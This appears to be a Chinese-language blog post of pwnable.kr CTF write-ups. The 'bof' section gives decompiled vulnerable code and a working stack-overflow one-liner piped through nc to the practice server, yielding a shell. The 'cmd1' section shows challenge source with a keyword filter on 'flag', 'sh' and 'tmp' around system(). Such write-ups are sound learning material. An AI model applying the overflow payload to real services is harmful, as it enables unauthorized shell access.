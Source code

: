 ```yaml
---
title: "pwnable.kr学习记录"
date: 2021-03-19T14:37:04+08:00
tags: ["pwnable", "writeup"]
---
```


# [Toddler's Bottle] bof

```c
unsigned int __cdecl func(int a1)
{
  char s[32]; // [esp+1Ch] [ebp-2Ch] BYREF
  unsigned int v3; // [esp+3Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  puts("overflow me : ");
  gets(s);
  if ( a1 == '\xCA\xFE\xBA\xBE' )
    system("/bin/sh");
  else
    puts("Nah..");
  return __readgsdword(0x14u) ^ v3;
}
```

要覆盖func函数的参数，x86是栈上传参，返回地址后就是参数 `a1`, 而 `s` 距离 `ebp` 有 0x2c, 那么需要 0x2c + 8 也就是 52 个长度

```bash
✘ 4uuu Nya ~ (python -c "print 'A'*52+'\xBE\xBA\xFE\xCA'";cat)|nc pwnable.kr 9000
ls
bof
bof.c
flag
log
log2
super.pl
```


# [Toddler's Bottle] cmd1

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}
```
